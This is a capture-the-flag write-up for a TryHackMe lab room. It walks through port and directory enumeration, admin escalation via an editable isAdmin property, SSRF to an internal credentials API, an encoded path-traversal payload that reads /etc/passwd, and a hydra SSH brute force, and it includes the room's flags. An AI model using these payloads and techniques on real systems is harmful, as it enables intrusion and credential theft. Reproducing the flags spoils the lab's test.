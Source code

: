 # Room: Include

## General Info
- **Room link:** [Include](https://tryhackme.com/room/include)

## Description

This challenge is an initial test to evaluate your capabilities in web pentesting, particularly for server-side attacks. Start the VM by clicking the Start Machine button at the top right of the task.

You will find all the necessary tools to complete the challenge, like Nmap, PHP shells, and many more on the AttackBox.

## Provided Files / Links
- [x] Target Machine IP (10.10.4.215)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.4.215 -p- -T5`

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```

Note: 
2 http ports (4000 and 50000)

- Directory Enumeration

I start enumerating on port 50000 (this is a sysmon login page):

```
gobuster dir -u http://10.10.4.215:50000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
/uploads              (Status: 301) [Size: 321] [--> http://10.10.4.215:50000/uploads/]
/javascript           (Status: 301) [Size: 324] [--> http://10.10.4.215:50000/javascript/]
/templates            (Status: 301) [Size: 323] [--> http://10.10.4.215:50000/templates/]
/phpmyadmin           (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
```

And on port 4000 (this is a login page):

```
gobuster dir -u http://10.10.4.215:4000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
/index                (Status: 302) [Size: 29] [--> /signin]
/signup               (Status: 500) [Size: 1246]
/images               (Status: 301) [Size: 179] [--> /images/]
/Index                (Status: 302) [Size: 29] [--> /signin]
/signin               (Status: 200) [Size: 1295]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/INDEX                (Status: 302) [Size: 29] [--> /signin]
/Signup               (Status: 500) [Size: 1246]
/SignUp               (Status: 500) [Size: 1246]
/signUp               (Status: 500) [Size: 1246]
/SignIn               (Status: 200) [Size: 1295]
```

In the /signin page, I can login with the credentials guest:guest.

## Website exploitation

### Friends website

Once logged in, I can see my profile and 2 "friend" profiles.
In my profile, there is a "Friend Details section" with an "isAdmin" propriety set to false.

With the form at the bottom of the page, I can change the value of the property simply by entering "isAdmin" and "true" in the 2 fields.

I notice that now I have access to another page: `http://10.10.4.215:4000/admin/api`.

In this page, I am informed of the 2 following api endpoints:

```
Internal API
GET http://127.0.0.1:5000/internal-api HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
  "secretKey": "superSecretKey123",
  "confidentialInfo": "This is very confidential."
}
```

```
Get Admins API
GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```

In the http://10.10.4.215:4000/admin/settings page, there is a field to "Update Banner Image URL". I try my luck with the admins API endpoint that I found a minute ago and I get the following string:

`data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=`

I decode the base64 string part and get the following information:

```
{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}
```

### Sysmon website

Now that I got the SysMonAppUsername/SysMonAppPassword credentials, I can login the sysmon website.

Once I'm logged in, I find the first flag right away: **THM{!50_55Rf_1S_d_k3Y??!}**.

Then I spent a lot of time trying to find what the next step would be.

I found in the html source code a piece of information related to the image that is displayed: 

`<img src="profile.php?img=profile.png" class="img-fluid rounded-circle mb-3 profile-pic" alt="User Profile Picture">`

I opened Burp Suite to try for LFI poisoning. I found a relevant wordlist to use in my SecLists repository (/usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt) and started the attack in the intruder tab:

```
GET /profile.php?img=§profile.png§ HTTP/1.1
Host: 10.10.4.215:50000
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://10.10.4.215:50000/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=9ve08gnsbsa4fqb2igoa98qent
Connection: keep-alive
```

With the following payload, I was able to read the content of the /etc/passwd file:

```
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:114:121::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:115:123:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:124:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```

I found 2 usernames: **joshua** and **charles**.

### SSH exploitation

Since I couldn't find passwords for joshua and charles, I will try to bruteforce the ssh login using hydra.

I'm first starting with joshua: `hydra -l joshua -P /usr/share/wordlists/rockyou.txt 10.10.4.215 ssh`.

I quickly found his password: `[22][ssh] host: 10.10.4.215   login: joshua   password: 123456`.

I did the same for charles and I actually found the exact same password (**123456**).

I logged in with joshua's credentials and went to /var/www/html. I listed all the files and found 505eb0fb8a9f32853b4d955e1f9123ea.txt which revealed the last flag: **THM{505eb0fb8a9f32853b4d955e1f9123ea}**.